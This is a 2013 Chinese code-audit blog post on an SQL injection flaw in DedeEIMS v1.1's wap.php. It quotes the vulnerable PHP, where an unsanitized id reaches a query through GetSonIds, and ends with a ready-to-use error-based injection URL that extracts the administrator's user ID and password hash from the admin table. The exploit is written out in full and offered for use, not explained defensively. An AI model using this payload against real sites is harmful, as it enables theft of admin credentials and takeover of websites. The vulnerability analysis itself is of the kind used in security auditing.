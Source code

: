 title: "dedeeims v1.1 SQL Injection"
date: 2013-06-09 23:41:12
tags:
id: 219
comment: false
categories:
  - 代码审计
---

<pre class="brush:php">前几天搞站第一次遇到,御剑的指纹识别出dedecms，但是没想到打开一看，原来是它亲戚。我操。

wap.php

......
else if($action=='list')
{
	$nrow = $dsql-&gt;GetOne("Select * From `#@__arctype` where ID='$id' ");
	if($nrow['ishidden']==1) exit();
	$typename = ConvertStr($nrow['typename']);
	$typeid = $nrow['id'];
	$catcontect = '';
	$userLang = $nrow['lang'];
	if($nrow['ispart']==3)
	{
		$catcontect = html2wml($nrow['content']);
	}
	$trow = $dsql-&gt;GetOne("Select id,typename From `#@__arctype` where lang='$userLang' And  reid=0 ");
	$langname = ConvertStr($trow['typename']);
	$langid = $trow['id'];
	//当前栏目下级分类
	$dsql-&gt;SetQuery("Select ID,typename From `#@__arctype` where reID='$id' And channeltype=1 And ishidden=0 And ispart&lt;&gt;2 order by sortrank");
	$dsql-&gt;Execute();
	while($row=$dsql-&gt;GetObject())
	{
		$channellistnext .= "&lt;a href='wap.php?action=list&amp;amp;id={$row-&gt;ID}'&gt;".ConvertStr($row-&gt;typename)."&lt;/a&gt; ";
	}
	//栏目内容(分页输出)
	$sids = GetSonIds($id,1,true);
	$varlist = "cfg_webname,typename,channellist,channellistnext,cfg_templeturl";
	ConvertCharset($varlist);
	require_once(dirname(__FILE__)."/include/datalistcp.class.php");
	$dlist = new DataListCP();
	$dlist-&gt;SetTemplet($cfg_templets_dir."/wap/list.wml");
	$dlist-&gt;pageSize = 10;
	$dlist-&gt;SetParameter("action","list");
	$dlist-&gt;SetParameter("id",$id);
	$dlist-&gt;SetSource("Select ID,title,pubdate,click From `#@__archives` where typeid in($sids) And arcrank=0 order by ID desc"); //注入
	$dlist-&gt;Display();
	exit();
}
.......

include/channelunit.func.php

//获得某id的所有下级id
function GetSonIds($id,$channel=0,$addthis=true)
{
	global $_Cs;
	$GLOBALS['idArray'] = array();
	if( !is_array($_Cs) )
	{
		require_once(DEDEROOT."/data/cache/inc_catalog_base.inc");
	}
	GetSonIdsLogic($id,$_Cs,$channel,$addthis);
	$rquery = join(',',$GLOBALS['idArray']);
	return $rquery;
}

//递归逻辑
function GetSonIdsLogic($id,$sArr,$channel=0,$addthis=false)
{
	if($id!=0 &amp;&amp; $addthis)
	{
		$GLOBALS['idArray'][$id] = $id;
	}
	foreach($sArr as $k=&gt;$v)
	{
		if( $v[0]==$id &amp;&amp; ($channel==0 || $v[1]==$channel ))
		{
			GetSonIdsLogic($k,$sArr,$channel,true);
		}
	}
}

EXP  //本来不会写，参考c4rp3nt3r http://www.0x50sec.org/code-audits/2013/01/id/1506/]dedecms EXP

http://10.1.1.129/DedeEIMS_1.1/wap.php?action=list&amp;id=1[/url] or @`'`=1 and (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(substring((select+CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`+limit+0,1),1,62)))a from information_schema.tables group by a)b) and @`'`=0</pre>